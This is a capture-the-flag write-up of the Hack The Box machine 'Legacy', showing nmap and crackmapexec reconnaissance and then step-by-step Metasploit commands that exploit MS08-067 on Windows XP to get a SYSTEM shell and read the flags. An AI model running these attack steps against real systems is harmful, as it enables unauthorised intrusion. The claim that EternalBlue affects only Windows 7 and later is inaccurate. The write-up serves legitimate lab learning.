# Legacy      


## Solution

### Scan with nmap

Type:

```
nmap -sC -sV {target ip} -v
```

`-sC` - This flag tells Nmap to use the default set of scripts during the scan. These scripts are part of the Nmap Scripting Engine (NSE) and are used for tasks such as version detection, vulnerability detection, and more. Using -sC enhances the scan by providing additional information about the target.

`-sV` - Version detection. Nmap will try to determine the version of the services running on open ports. This is useful for identifying specific software and versions, which can help in assessing potential vulnerabilities.

`-v` - Enables verbose mode. Verbose mode provides more detailed output during the scanning process, allowing you to see more information about what Nmap is doing. This can be helpful for debugging and understanding the progress of the scan.




Here are the descriptions of the open ports shown in the screenshots:

### **135/tcp (MSRPC)**
The Microsoft Windows RPC service is open, used for facilitating remote procedure calls on the system. This service often allows interaction between different processes on the same or remote machines.

### **139/tcp (NetBIOS-SSN)**
NetBIOS Session Service is active, used for network file sharing, printer sharing, and other Windows services within a network. This is typically used in conjunction with SMB for network file and printer sharing.

### **445/tcp (Microsoft-DS)**
**SMB (Server Message Block)** over TCP is open, commonly used for Windows file sharing. The service is running on **Windows XP**, and the scan indicates SMB signing is disabled, which can be a security vulnerability, allowing potential Man-in-the-Middle attacks.

### **Host Script Results**
- **SMB Security Mode**: The system is using the "guest" account for authentication, and message signing is disabled. This poses a security risk, as it may allow unauthorized access or modifications to network resources.
- **NetBIOS Information**: The NetBIOS name is "LEGACY," belonging to the "HTB" workgroup, indicating it's part of a network named HTB. The MAC address is identified as belonging to VMware, suggesting the machine may be virtualized.
- **SMB OS Discovery**: The operating system is identified as **Windows XP**, which is outdated and known for several vulnerabilities, potentially offering avenues for exploitation.

The combination of outdated services and unsecured configurations suggests that this machine could be vulnerable to various attacks.

### crackmapexec

I usually like exploring resources by myself using **smbclient** before using advanced tools, as it can sometimes reveal interesting informations. However, this time, it was a complete waste of energy.

I always like to start with:

```
crackmapexec smb {target ip}
```

when I'm testing **SMB** because it quickly gives me valuable information about the **OS version** and **SMB version**.



When I see `signing:False` and `SMBv1:True` I know right away that the server might be vulnerable to **EternalBlue**. However, our target is running on **Windows XP**, so **EternalBlue** can't be exploited in this case, as it targets **Windows 7 and later**.

If you want to know more about **EternalBlue (CVE-2017-0144)** check out my writeup to the [Blue](../Blue).

Since **SMBv1** is enabled and this is a **Windows XP** machine, it is potentially vulnerable to **MS08-067 (NetAPI Exploit)**. This vulnerability allows for remote code execution via the **NetServer** service.

Let's look for some exploits.

### SearchSploit

```
searchsploit ms08-067 
```



There are several exploits for this vulnerability in the base, so let's move on to `Metasploit`.

### Metasploit

In order:

```
msfconsole
```

```
search ms08-067
```



copy:

```
exploit/windows/smb/ms08_067_netapi
```

and type:

```
use exploit/windows/smb/ms08_067_netapi
```

then:

```
show options
```



We will have to set up `RHOST`(target ip) and `LHOST`(as we are connected to **HTB** through **VPN**).

```
set LHOST {your tun0 ip}
```

```
set RHOST {target ip}
```

when it's done, type:

```
run
```

and press `Enter`.




We have a shell.

As we used **`exploit/windows/smb/ms08_067_netapi`** exploit, we should have full control over the targeted machine.



We are **`nt authority\system`** - this is the most powerful account in Windows, even more privileged than the `Administrator` account. It has unrestricted access to all system resources, processes, files, and services.

### Get the user flag

The `user` flag is in the `C:\Documents and Settings\john\Desktop` path.



### Get the root flag

`Root` flag is in the `C:\Documents and Settings\Administrator\Desktop` path.



### Paste the flags

